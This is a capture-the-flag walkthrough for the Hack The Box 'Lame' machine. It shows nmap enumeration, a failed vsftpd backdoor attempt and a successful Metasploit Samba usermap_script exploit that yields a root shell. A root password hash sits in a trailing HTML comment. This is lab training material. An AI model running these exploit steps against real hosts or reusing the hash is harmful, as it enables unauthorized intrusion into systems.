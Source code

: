 Target: 10.10.10.3

## Enumeration:

nmap
```
$ sudo nmap -sC -sV 10.10.10.3

Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-14 23:29 PDT
Nmap scan report for 10.10.10.3
Host is up (0.058s latency).
Not shown: 996 filtered ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.16.3
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h00m46s, deviation: 2h49m44s, median: 44s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2021-05-15T02:31:12-04:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
```

### Findings:Looking for attack vectors

The victim machine runs outdated versions of ftp, ssh, and smbd. 
Look for possible exploits for these three services.


## Foothold:

exploit links:

[vsftpd 2.3.4](https://www.exploit-db.com/exploits/17491)

[samba 3.0.2](https://www.exploit-db.com/exploits/16320)


Metasploit
```
$ msfconsole
```

searching for vsftpd 2.3.4 exploits
```
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 10.10.10.3
run

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created
```

searching for samba 3.0.2 exploits
```
search samba 3.0.2

Matching Modules
================

   #  Name                                       Disclosure Date  Rank       Check  Description
   -  ----                                       ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script         2007-05-14       excellent  No     Samba "username map script" Command Execution
   1  exploit/linux/samba/lsa_transnames_heap    2007-05-14       good       Yes    Samba lsa_io_trans_names Heap Overflow
   2  exploit/solaris/samba/lsa_transnames_heap  2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow


use exploit/multi/samba/usermap_script
set RHOSTS 10.10.10.3
set LPORT tun0
run
```

```
id

uid=0(root) gid=0(root)
```

```
cat /home/makis/user.txt

<redacted>
```

```
cat /root/root.txt

<redacted>
```

<!-- root:$1$p/d3CvVJ$4HDjev4SJFo7VMwL2Zg6P0 -->
